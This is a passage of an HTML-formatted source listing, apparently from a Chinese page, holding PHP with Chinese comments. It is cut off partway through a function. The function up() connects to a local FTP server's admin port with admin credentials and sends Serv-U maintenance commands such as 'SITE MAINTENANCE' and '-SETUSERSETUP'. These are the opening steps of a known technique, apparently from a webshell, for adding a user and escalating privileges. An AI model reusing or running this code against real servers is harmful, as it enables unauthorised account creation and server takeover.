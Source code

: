     <li class="alt">
      <span><span class="string"></body></span>&nbsp;</span>
    </li>
    <li class="">
      <span><span class="string"></html></span>&nbsp;</span>
    </li>
    <li class="alt">
      <span><span class="string"><!&#8211;&nbsp;主文件结束&nbsp;//&#8211;></span>&nbsp;</span>
    </li>
    <li class="">
      <span><span class="string"><?php</span>&nbsp;</span>
    </li>
    <li class="alt">
      <span>&nbsp;</span>
    </li>
    <li class="">
      <span>&nbsp;</span>
    </li>
    <li class="alt">
      <span><span class="string">//添加用户主函数定义</span>&nbsp;</span>
    </li>
    <li class="">
      <span><span class="string">function&nbsp;up($addr,$ftpport,$adminport,$adminuser,$adminpass,$user,$password,$homedir){</span>&nbsp;</span>
    </li>
    <li class="alt">
      <span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;$fp&nbsp;=&nbsp;fsockopen&nbsp;("127.0.0.1",&nbsp;$adminport,&nbsp;$errno,&nbsp;$errstr,&nbsp;8);</span>&nbsp;</span>
    </li>
    <li class="">
      <span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;if&nbsp;(!$fp)&nbsp;{</span>&nbsp;</span>
    </li>
    <li class="alt">
      <span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;echo&nbsp;"$errstr&nbsp;($errno)<br>\n";</span>&nbsp;</span>
    </li>
    <li class="">
      <span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;}&nbsp;else&nbsp;{</span>&nbsp;</span>
    </li>
    <li class="alt">
      <span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;fputs&nbsp;($fp,&nbsp;"USER&nbsp;".$adminuser."");</span>&nbsp;</span>
    </li>
    <li class="">
      <span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;sleep&nbsp;(1);</span>&nbsp;</span>
    </li>
    <li class="alt">
      <span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;fputs&nbsp;($fp,&nbsp;"PASS&nbsp;".$adminpass."");</span>&nbsp;</span>
    </li>
    <li class="">
      <span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;sleep&nbsp;(1);</span>&nbsp;</span>
    </li>
    <li class="alt">
      <span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;fputs&nbsp;($fp,&nbsp;"SITE&nbsp;MAINTENANCE");</span>&nbsp;</span>
    </li>
    <li class="">
      <span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;sleep&nbsp;(1);</span>&nbsp;</span>
    </li>
    <li class="alt">
      <span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;fputs&nbsp;($fp,&nbsp;"-SETUSERSETUP");</span>&nbsp;</span>